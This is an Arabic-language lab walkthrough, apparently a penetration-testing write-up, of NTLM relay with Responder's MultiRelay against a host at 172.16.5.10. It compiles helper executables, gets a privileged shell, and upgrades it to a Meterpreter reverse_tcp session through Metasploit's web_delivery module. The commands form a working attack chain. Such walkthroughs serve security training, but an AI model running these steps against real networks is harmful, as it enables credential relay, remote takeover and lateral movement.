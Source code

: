 طبعا الان راح نشغل اداة MultiRelay ونشوف لو فيه هاشات لتارقت 172.16.5.10  

```bash  
cd /usr/share/responder/tools  
ls  
```  

طيب الان الـ multyrelay.py يستخدم ملفين Runs.exe , Syssvc.exe لكل من x84-64  
طبعا حنا فقط نحتاج ملف exe يكون x86  
خلونا نحذف الملفين القابله لتشغيل ونسوي compile for x86 executable  
```bash
ls /usr/share/responder/tools/MultiRelay/bin  
rm /usr/share/responder/tools/MultiRelay/bin/Runas.exe    
rm /usr/share/responder/tools/MultiRelay/bin/Syssvc.exe  
ls /usr/share/responder/tools/MultiRelay/bin  
```  

الان راح نسوي Compiling Runas.c and Syssvc.c.  
```bash
i686-w64-mingw32-gcc /usr/share/responder/tools/MultiRelay/bin/Runas.c -o /usr/share/responder/tools/MultiRelay/bin/Runas.exe -municode -lwtsapi32 -luserenv  
i686-w64-mingw32-gcc /usr/share/responder/tools/MultiRelay/bin/Syssvc.c -o /usr/share/responder/tools/MultiRelay/bin/Syssvc.exe -municode  
```  
طبعا الاول عشان يسوي لنا كومبايل لملف قابل بتشغل Runs.exe x86  
والملف الثاني راح يكون Syssvc.exe x86  

الان نشوف انه تمام كلشي الان راح نشغل اداة MultyRelay.py  
```bash
./MultiRelay.py -t 172.16.5.10 -u ALL  
```  

طيب حلو الان نفتح الـ responder بتاب ثاني ونخلي التاب الاولى شغاله  
```bash  
responder -I eth1 --lm  
```  

ونشوف بعد ماشغلناه بشوي عطانا الـ Interactive shell  

طبعا لابد نشغل الـ MultyRelay.py قبل تفتح الـ responder  

لو نكتب بعض الاوامر  
```bash
whoami  
ipconfig  
```  

نشوف انه معنا اعلى صلاحيات وكذالك استعلمنا عن الشبكات الموجوده  
10.100.40.100 هذي طبعا شبكة ثانيه موجوده على الجهاز  

ف ممكن نسوي بفتنق يعني فيه افكار كثيره خلونا نشوف الان الخطوه الي بعدها  

طبعا الان نبي نرفع الشيل حقنا من شيل الى meterpreter session  
راح نستخدم موديول جديد الي هو web_delivery  

طبعا فكرت هذا الموديول يوفرلك اكثر  من طريقة انك تشغل الشيل حقك  
وتقدر تختار ايش يكون الشيل حقك يوفر اكثر من خيار خلونا نشوف مع بعض  

```bash
msfconsole -q  
search web_delivery  
use exploit/multi/script/web_delivery  
show options  
show targets  
set TARGET 3  
set LHOST 172.16.5.101  
set PAYLOAD windows/meterpreter/reverse_tcp  
exploit  
jobs  
```  
